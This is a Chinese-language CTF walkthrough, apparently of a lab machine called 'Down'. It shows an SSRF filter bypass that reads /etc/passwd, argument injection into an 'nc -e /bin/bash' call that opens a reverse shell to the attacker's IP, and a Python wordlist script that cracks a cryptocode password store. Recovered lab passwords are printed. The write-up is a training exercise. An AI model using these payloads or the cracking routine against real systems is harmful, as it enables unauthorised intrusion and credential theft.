## Dowm

22/tcp
80/tcp

### 1.因为这个目标网页是输入url的，所以直接监听本地主机
```
$ nc -lvnp 8089
```


好吧 简短结束
### 2.得知只能在url里面输入两种模式HTTP/HTTPS

绕过它的一种方法是使用各种特殊字符。Seclists有一个特殊字符的单词列表,尝试使用和不使用URL编码
```
$ wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Fuzzing/special-chars.txt
```
### 3.Burpsuite
#### 双击右键 Send to Intruder
#### 在Load导入special-chars.txt，因为Intruder是要付费的，可以使用Repeater功能代替

#### ctrl +R,Shift+ctrl+R:
##### 其中一个完美的过滤器实际上是空白，两个协议之间的URL编码为+
```
url=http://+file%3a///etc/passwd

//file:// 后面本来要跟 authority（主机名），但是空的；file://localhost/etc/passwd
//%3a是:
```
##### 绕过 payload：url=http://+file:///etc/passwd 议混淆

#### 为什么apache要查看/var/www/html/index.php
##### /var/www/html/index.php 跟 Apache 的默认工作方式有关,是默认首页文件

#### 有一个if条件来检查用户是否拥有提供了一个名为expertmode的GET参数，值为tcp
#### 另外可以看到
```
//服务端代码
<?php
$ip = $_GET['ip'];
$port = $_GET['port'];
system("nc $ip $port -e /bin/bash");
?>
```
#### 那么就在浏览器页面输入：?expertmode=tcp

```
10.10.14.87
1
```
#### 然后burpsuite抓取请求

### 4.反弹shell
```
$ nc -lvnp 1337
```
#### 在burpsuite上，输入：
```
ip=10.10.14.87&port=1337+-e+/bin/bash //+ 在 URL 编码中等于空格
```
#### Forword，就可以获得反弹连接了
##### 实际上就是把整个 nc 命令传给服务端执行，等于在靶机上打开一个 反弹 shell

```
www-data@down:/var/www/html$ cat user_aeT1xa.txt

www-data@down:/var/www/html$ cat /etc/passwd
```

#### aleks
#### 查看本地/共享目录，有非默认名为PSWM的目录
```
www-data@down:/home/aleks$cd .local
```
#### 有个可执行权限的文件

### 5.加密后的密码数据库/密码存储文件
#### 它不是标准的 Linux shadow 或 gpg 文件，而是一个 Python 第三方库 cryptocode 的输出格式，这个库在加密字符串时会生成 Base64 的密文块，并用 * 拼接在一起

```
//在一个新的终端
$ echo 'e9laWoKiJ0OdwK05b3hG7xMD+uIBBwl/v01lBRD+pntORa6Z/Xu/TdN3aG/ksAA0Sz55/kLggw==*xHnWpIqBWc25rrHFGPzyTg==*4Nt/05WUbySGyvDgSlpoUw==*u65Jfe0ml9BFaKEviDCHBQ==' > pswm

$ pip3 install cryptocode prettytable

//https://github.com/Julynx/pswm  //借鉴学习
```
#### vi decrypt.py
```
import cryptocode //导入 cryptocode 库（用于对字符串加密/解密）
import os

def encrypted_file_to_lines(file_name, master_password): //定义一个函数 encrypted_file_to_lines，打开一个加密的文件，用 master_password 尝试解密，返回明文内容按行拆分后的列表
    if not os.path.isfile(file_name):  
        return "" //检查文件是否存在，如果不存在就返回空字符串

    with open(file_name, 'r') as file:
        encrypted_text = file.read() //以只读模式打开文件，把内容读取到 encrypted_text

    decrypted_text = cryptocode.decrypt(encrypted_text, master_password)
    if decrypted_text is False:
        return False //尝试用 master_password 解密文件内容，如果解密失败（返回 False），函数也返回 False

    decrypted_lines = decrypted_text.splitlines()  //将解密后的明文按 换行符拆成列表，每一行是列表里的一个元素

    print(master_password)
    print(decrypted_lines) //打印当前尝试的密码和解密出的内容

    return decrypted_lines //返回解密后的内容（列表形式）

words = open("/usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-1000.txt", 'r', errors="ignore").readlines() //打开字典文件，把所有密码按行读入列表 words
for word in words:
    encrypted_file_to_lines('pswm', word.strip()) //遍历字典中的每个密码，word.strip() 去掉行首行尾空格；调用 encrypted_file_to_lines 尝试用这个密码解密文件 'pswm'
```
#### $python3 decrypt.py 运行

#### pswm 文件的master password 是 flower 
#### aleks 的密码 是 1uY3w22uc-Wr{xNHR~+E

### 6.回到刚刚的反弹shell

```
$ cat /root/root.txt
```
